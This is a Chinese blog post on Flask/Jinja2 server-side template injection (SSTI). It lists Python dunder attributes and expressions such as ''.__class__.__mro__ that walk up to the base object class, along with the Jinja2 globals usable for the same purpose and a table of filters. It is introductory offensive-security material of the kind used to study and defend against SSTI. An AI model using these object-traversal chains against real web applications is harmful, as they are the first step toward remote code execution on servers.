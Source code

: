 ```yaml
---
layout:     post
title:      Flask ssti
subtitle:   总结一下ssti常见payload 和 绕过方式 更新于 8.8
date:       2020-05-20
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/post-bg-flask-ssti.jpg
catalog: true
tags:
    - Python
    - 命令注入
---
```


# 一、 常见payload

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__getattribute__ 使用实例访问属性时,调用该方法
__dict__ 查看方法
```

获取object

```python
''.__class__.__mro__[2]  #python2
''.__class__.__mro__[1] #python3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用 [10]
```
类似request的还可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config

通过self.\_\_dict__ 查看


**jinja2 中的常见过滤器**

过滤器名称 |	说明
-|-
safe |	渲染时值不转义
capitialize |	把值的首字母转换成大写，其他子母转换为小写
lower |	把值转换成小写形式
upper |	把值转换成大写形式
title |	把值中每个单词的首字母都转换成大写
trim |	把值的首尾空格去掉
striptags |	渲染之前把值中所有的HTML标签都删掉
join |	拼接多个值为字符串
replace |	替换字符串的值
round |	默认对数字进行四舍五入，也可以用参数进行控制
int |	把值转换成整型
